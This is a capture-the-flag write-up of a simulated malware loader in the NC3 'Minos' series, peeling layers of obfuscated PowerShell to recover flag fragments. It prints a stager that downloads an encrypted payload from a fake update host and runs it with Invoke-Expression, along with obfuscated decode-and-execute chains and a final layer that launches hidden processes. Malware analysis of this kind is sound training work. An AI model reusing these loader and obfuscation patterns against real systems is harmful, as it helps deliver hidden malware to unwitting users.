

+++
title = 'Minos 3: Loader'
categories = ['Malware']
tags = ["CTF", "NC3", "Malware"]
date = 2025-12-12T20:20:00+01:00
scrollToTop = true
author = "Loff"
+++

## Challenge Name:

Minos 3: Loader

## Category:

Malware

## Challenge Description:
```text
Sarpedons stager henter ikke malwaren med det samme, men i stedet en lidt større loader, der laver forskellige checks og klargør miljøet til den faktiske malware.

Analyser dig igennem Sarpedons loader og undersøg hvert step op til loading af selve Minos infostealeren.

⚠️⚠️⚠️
MALWAREN SIMULERER ÆGTE MALWARE,
ANALYSER OG KØR KUN I ET KONTROLLERET MILJØ
⚠️⚠️⚠️

OBS: Bruger samme filer som Minos 1: Initial Access
```
[Minos 1: Initial Access](../minos-1-initial-access/readme.md)

This stage focuses on reversing the loader fetched by the stager in Minos 2.
Unlike the stager, the loader performs environment checks, evasion, and preparation before pulling in the actual infostealer.

## Approach 

From the [previous task](../minos-2-stager/readme.md) we already had:
* The binary for the next stage `l04d3r.bin`
* The decryption routine (AES + HMAC)
* The embedded key material (also used as the flag in Minos 2)

So the plan here was simple: peel the onion.

## Layer 1: Decrypting l04d3r.bin

The PowerShell from Minos 2:

* Downloads l04d3r.bin
* Validates HMAC-SHA256 integrity
* Decrypts AES-256-CBC
* Executes the plaintext with Invoke-Expression

The original powershell found in the previous task was this:

```powershell
function BytesEqual([byte[]]$a,[byte[]]$b){
  if ($a.Length -ne $b.Length) { return $false }
  $d=0; for($i=0;$i -lt $a.Length;$i++){ $d = $d -bor ($a[$i] -bxor $b[$i]) }; return ($d -eq 0)
try {
  $key = [Convert]::FromBase64String("TkMze2M0bl9uM3Yzcl9yM20zbWIzcl9zdDNnMF92c19zdDRnM3JfczBfMV9tNGRlXzRfc3QzZzAtc3Q0ZzNyfQ==")
  $aesKey = [byte[]]($key[0..31])
  $macKey = [byte[]]($key[32..63])
  $wc = New-Object Net.WebClient
  try {
    $blob = $wc.DownloadData("http://w1ndowsl1veupdater.nc3/dl/
l04d3r.bin")
  } finally {
    $wc.Dispose()
  $iv = New-Object byte[] 16
  [Array]::Copy($blob, 0, $iv, 0, 16)
  $tag = New-Object byte[] 32
  [Array]::Copy($blob, $blob.Length - 32, $tag, 0, 32)
  $ctLen = $blob.Length - 16 - 32
  $ct = New-Object byte[] $ctLen
  [Array]::Copy($blob,16,$ct,0,$ctLen)
  $hmac = [System.Security.Cryptography.HMACSHA256]::new($macKey)
  $data = New-Object byte[] ($iv.Length + $ct.Length)
  [Array]::Copy($iv,0,$data,0,$iv.Length)
  [Array]::Copy($ct,0,$data,$iv.Length,$ct.Length)
  $calc = $hmac.ComputeHash($data)
  if (-not (BytesEqual $calc $tag)) { exit 0 }
  $aes = [Security.Cryptography.Aes]::Create()
  $aes.Mode='CBC'; $aes.Padding='PKCS7'; $aes.KeySize=256; $aes.BlockSize=128
  $aes.Key=$aesKey; $aes.IV=$iv
  $dec = $aes.CreateDecryptor()
  $pt = $dec.TransformFinalBlock($ct, 0, $ct.Length)
  Invoke-Expression ([Text.Encoding]::UTF8.GetString($pt))
} catch {}
}
```

To analyze safely, I cleaned it up (ChatGPT-assisted) and replaced the final execution with output to a file.

This produced:
A cleaned decryptor: [this script](files/decrypt-loader.ps1)
Decrypted payload: [loader_decrypted.txt](files/loader_decrypted.txt)

The result was (unsurprisingly) another PowerShell script.

## Layer 2: Base64 + Gzip → PowerShell

The decrypted script contained a large Base64 blob which was decoded and decompressed via Gzip, then executed:

```powershell
$c = 'huge base 64 chunk';
$bytes = [Convert]::FromBase64String($c);
$ms = New-Object IO.MemoryStream(,$bytes);
$gz = New-Object IO.Compression.GzipStream($ms,[IO.Compression.CompressionMode]::Decompress);
$sr = New-Object IO.StreamReader($gz);
$o = $sr.ReadToEnd();
iEx $o
```

To avoid accidentally running anything, I extracted the Base64 chunk to `loader_decrypted_2.b64` and decoded it manually:

```bash
base64 -d loader_decrypted_2.b64 > loader_decrypted_2.ps1
```

As expected it yielded yet another PowerShell layer.

## Layer 3: Base64 → XOR → Execute (and the first flag fragment)

The next layer followed the same overall pattern, but with XOR added:

```powershell
$first=[Convert]::FromBase64String("huge base64 string")
$key = [Text.Encoding]::UTF8.GetBytes("PART1:NC3{scr1p7-3x3cut3d_")
$stage = New-Object byte[] $first.Length
for ($i = 0; $i -lt $first.Length; $i++) {
    $stage[$i] = $first[$i] -bxor $key[$i % $key.Length]
}
[Text.Encoding]::UTF8.GetString($stage) | iex
```

The XOR key immediately stands out:

```text
PART1:NC3{scr1p7-3x3cut3d_
```

This establishes the core gimmick of the loader: each layer either contains or is unlocked by a flag fragment.

## …And so on: Repeating decode chains

From here the workflow repeated several times:
* Extract Base64
* Sometimes decompress (Gzip)
* Sometimes XOR-decode with a PARTx: key
* Save the output instead of executing
* Move to the next layer

By the end, I had a folder full of extracted stages (one per layer), matching the “recursive PowerShell” theme:

Once done, my folder looked like this:


## Notable behavior in the middle layers

Some layers weren’t just decode wrappers, they contained “real malware-like” logic.

Theres a few interesting points on the way through the layers worth highlightning:

In particular, [layer 5](files/loader_decrypted_5.txt) (and later Layer 7, 9, 11) included heavily obfuscated PowerShell that performed:

* Sandbox / VM / analyst environment checks
* Blacklists for usernames, hostnames, processes, AV tools, and common analysis paths
* RC4-like decoding routines
* Large string tables used to assemble indicators dynamically

Tools like [PowerDecode](https://github.com/Malandrone/PowerDecode) refused to process these stages due to known malware detection.

Since these blocks were not required to extract the next embedded layer, I treated them as evasion noise and focused on the decode pipeline.

## Final Trick: Dual blob decoy

Layer 12 was slightly different, it handled two Base64 blobs.

One blob led to a decoy “taunt” (layer 13 fake):
```text
# Troede du virkelig, du kunne forhindre min malware i at eksekvere?!? MUAHAHAHAHAHAAAAAAA
```

The other blob produced the real final layer.
This was a nice touch, exactly the sort of anti-analysis time-waster you see in real-world scripts.

## Layer 13

The final layer was extremely obfuscated:

```powershell
@('if(1 -eq 1){','$D=@(''00112',''',''233'',''44','55'',''667'',''','7889'',''9AAB','B'',''CCDDEE''',',''FF'',''1y7''',',''COf'',''tJB',''',''qWL'',''Ld','h'',''c8GVI'',','''rimA6'',''zX','CY'',''v9L'',''','yDLPJ'',''f1U','DuO'',''MBf'',','''ZV8AEP'',''/','X+gz'',''x/Pc',''',''s9cCd'',''','duLj'',''6Pk3','wh'',''99CHY''',',''1j3'',''1i/','NM'',''PcH'',''','VL/'',''YHMFe','9'',''jAJ'',''8','Sm18'',''iPSc','u8'',''='');
f','unction __d','ecqBIRMu($k',',[byte[]]$d','){$s=0..255',';$j=((0x685',' -bxor 0x68','0)-5);for($','i=((0x4BD3 ','-bxor 0x4BD','7)-4);$i -l','t ((0x1261 ','-bxor 0x136','0)-1);$i++)','{$j=($j+$s[','$i]+$k[$i%$','k.Length])%','((0x2639 -b','xor 0x273C)','-5);$t=$s[$','i];$s[$i]=$','s[$j];$s[$j',']=$t}$i=((0','x58D -bxor ','0x588)-5);$','j=((0x5683 ','-bxor 0x568','6)-5);for($','x=((0x3BA0 ','-bxor 0x3BA','1)-1);$x -l','t $d.Length',';$x++){$i=(','$i+((0x65FC',' -bxor 0x65','F9)-4))%((0','x3093 -bxor',' 0x3190)-3)',';$j=($j+$s[','$i])%((0x2B','9F -bxor 0x','2A9A)-5);$t','=$s[$i];$s[','$i]=$s[$j];','$s[$j]=$t;$','d[$x]=$d[$x','] -bxor $s[','($s[$i]+$s[','$j])%((0x35','66 -bxor 0x','3464)-2)]}[','Text.Encodi','ng]::UTF8.G','etString($d',')}
$XxINhdIR','wn = Join-P','ath $env:L','OCALAPPDATA',' (__decqBIR','Mu ([byte[]','](0..(((0x5','D8F -bxor 0','x5D9C)-3)-(','(0x465E -bx','or 0x465C)-','1))|%{[Conv','ert]::ToByt','e(''00112233','44556677889','9AABBCCDDEE','FF''.Substri','ng($_*((0x2','A80 -bxor 0','x2A83)-1),(','(0x4A89 -bx','or 0x4A8E)-','5)),((0x2EE','1 -bxor 0x2','EF3)-2))}))',' ([Convert]','::FromBase6','4String(($D','[((0x1CD5 -','bxor 0x1CC6',')-2)]+$D[((','0x8B4 -bxor',' 0x8A7)-1)]','+$D[((0x68E','A -bxor 0x6','8FE)-1)]+$D','[((0xD1B -b','xor 0xD0E)-','1)]+$D[((0x','386F -bxor ','0x3875)-5)]','+$D[((0x22B','5 -bxor 0x2','2AC)-3)]+$D','[((0x7D12 -','bxor 0x7D08',')-3)]+$D[((','0x7B5C -bxo','r 0x7B47)-3',')]+$D[((0x5','DF3 -bxor 0','x5DEF)-3)]+','$D[((0x7F95',' -bxor 0x7F','8E)-1)]+$D[','((0x66B4 -b','xor 0x66AA)','-3)]))))
St','art-Process',' $XxINhdIRw','n -Argument','List (__dec','qBIRMu ([by','te[]](0..((','(0x4ADE -bx','or 0x4ACF)-','1)-((0x2A50',' -bxor 0x2A','53)-2))|%{[','Convert]::T','oByte(''0011','22334455667','78899AABBCC','DDEEFF''.Sub','string($_*(','(0x53CB -bx','or 0x53C8)-','1),((0x7DBF',' -bxor 0x7D','BB)-2)),((0','x202D -bxor',' 0x2038)-5)',')})) ([Conv','ert]::FromB','ase64String','(''qjnNNPlAE','+qNN90='')))','
','}')-join''|.("Write-HostX"[2,4,10]-join'');@('Start-Process -Wi','ndowStyle H','idden -File','Path powers','hell.exe -A','rgumentList',' @(''-NoP','rofile'',''-C','ommand'',','''Add-Type -','AssemblyNam','e System.Wi','ndows.Forms',';[System.Wi','ndows.Forms','.MessageBox',']::Show(''''P','A','R','T','6',':','u','s','3','r','-','p','w','n','3','d',':','3}'''',''','''PWNED'''')''',')')-join''|.("Write-HostX"[2,4,10]-join'');@('function _','_decXxINhd(','$k,[byte[]]','$d){$s=0..2','55;$j=((0x4','682 -bxor 0','x4681)-3);f','or($i=((0x4','228 -bxor 0','x422A)-2);$',
'i -lt ((0x1','765 -bxor 0','x1667)-2);$','i++){$j=($j','+$s[$i]+$k[','$i%$k.Lengt','h])%((0x219','8 -bxor 0x2','09D)-5);$t=','$s[$i];$s[$','i]=$s[$j];$','s[$j]=$t}$i','=((0x1627 -','bxor 0x1623',')-4);$j=((0','x180C -bxor',' 0x1808)-4)',';for($x=((0','x466A -bxor',' 0x466F)-5)',';$x -lt $d.','Length;$x++','){$i=($i+((','0x214B -bxo','r 0x214D)-5','))%((0x44D3',' -bxor 0x45','D7)-4);$j=(','$j+$s[$i])%','((0x33D8 -b','xor 0x32DB)','-3);$t=$s[$','i];$s[$i]=$','s[$j];$s[$j',']=$t;$d[$x]','=$d[$x] -bx','or $s[($s[$','i]+$s[$j])%','((0x46AD -b','xor 0x47A8)','-5)]}[Text.',
'Encoding]::','UTF8.GetStr','ing($d)}W','rite-Host (','__decXxINhd',' ([byte[]](','0..(((0xCD9',' -bxor 0xCC','C)-5)-((0x9','36 -bxor 0x','935)-2))|%{','[Convert]::','ToByte(''001','12233445566','778899AABBC','CDDEEFF''.Su','bstring($_*','((0x288E -b','xor 0x2889)','-5),((0x303','3 -bxor 0x3','037)-2)),((','0x3EBF -bxo','r 0x3EAA)-5','))})) ([Con','vert]::From','Base64Strin','g(''1jjDJfcd','QbbKdooJuWU','J/WSgqXCTIa','tdBcJkEDWO''',')))exit ((',
'0x2185 -bxo','r 0x2187)-2',')')-join''|Invoke-Expression
```

But the important part was visible after deobfuscation:
```powershell
Start-Process -WindowStyle Hidden -FilePath powershell.exe -ArgumentList @(
  '-NoProfile',
  '-Command',
  'Add-Type -AssemblyName System.Windows.Forms;
   [System.Windows.Forms.MessageBox]::Show(
       ''PART6:us3r-pwn3d:3}'',
       ''PWNED''
   )'
)
```

So opening up a windows form and printing the final part of the flag, along with the text `PWNED`.

## Assembling the flag

Across the layers, the loader disclosed six parts:

PART1:NC3{scr1p7-3x3cut3d_
PART2:4ut0-4n4lys1s-pr3v3nt3d_
PART3:4ms1-byp4ss3d_
PART4:m4lw4r3-l04d3d_
PART5:p3rs1st3nc3-1nst4ll3d_
PART6:us3r-pwn3d:3}

## Flag
```text
NC3{scr1p7-3x3cut3d_4ut0-4n4lys1s-pr3v3nt3d_4ms1-byp4ss3d_m4lw4r3-l04d3d_p3rs1st3nc3-1nst4ll3d_us3r-pwn3d:3}
```

## Reflections and Learnings

Reflections and Learnings

* Layered PowerShell is brutally effective: even simple transformations (Base64, Gzip, XOR) become painful at scale.
* Evasion code is often “optional” for CTF solves: real-world checks can be noise if the goal is just to extract the next stage.
* Decoys matter: the dual-blob trick in Layer 12 is a realistic analyst trap.
* Safe workflow wins: replacing iex (and its variants) with “dump to file” kept the analysis controlled and repeatable.

This loader did a good job simulating the feel of real malware delivery logic, without requiring unsafe execution to progress.

## Next up

The first part of Minos finishes up in [Minos 4: Infostealer](../minos-4-infostealer/readme.md) 